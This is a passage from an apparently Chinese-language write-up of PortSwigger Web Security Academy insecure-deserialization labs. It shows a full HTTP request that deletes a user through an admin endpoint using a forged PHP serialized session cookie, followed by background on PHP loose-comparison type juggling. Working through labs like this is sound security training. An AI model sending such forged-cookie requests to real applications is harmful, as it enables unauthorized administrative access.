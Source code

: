 再根据题目操作功能点，删除 carlos 用户即可

```http
GET /admin/delete?username=carlos HTTP/2
Host: 0a7500b4035e4eef83c2be0400f50035.web-security-academy.net
Cookie: session=Tzo0OiJVc2VyIjoyOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czo1OiJhZG1pbiI7YjowO30%3d
Sec-Ch-Ua: "(Not(A:Brand";v="8", "Chromium";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a7500b4035e4eef83c2be0400f50035.web-security-academy.net/admin
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
```

## Lab2

### 前置

#### Modifying data types

We've seen how you can modify attribute values in serialized objects, but it's also possible to supply unexpected data types.

PHP-based logic is particularly vulnerable to this kind of manipulation due to the behavior of its loose comparison operator (`==`) when comparing different data types. For example, if you perform a loose comparison between an integer and a string, PHP will attempt to convert the string to an integer, meaning that `5 == "5"` evaluates to `true`.

Unusually, this also works for any alphanumeric string that starts with a number. In this case, PHP will effectively convert the entire string to an integer value based on the initial number. The rest of the string is ignored completely. Therefore, `5 == "5 of something" `is in practice treated as `5 == 5`.

This becomes even stranger when comparing a string the integer `0`:

```
0 == "Example string" // true
```

Why? Because there is no number, that is, 0 numerals in the string. PHP treats this entire string as the integer `0`.

Consider a case where this loose comparison operator is used in conjunction with user-controllable data from a deserialized object. This could potentially result in dangerous [logic flaws](https://portswigger.net/web-security/logic-flaws).
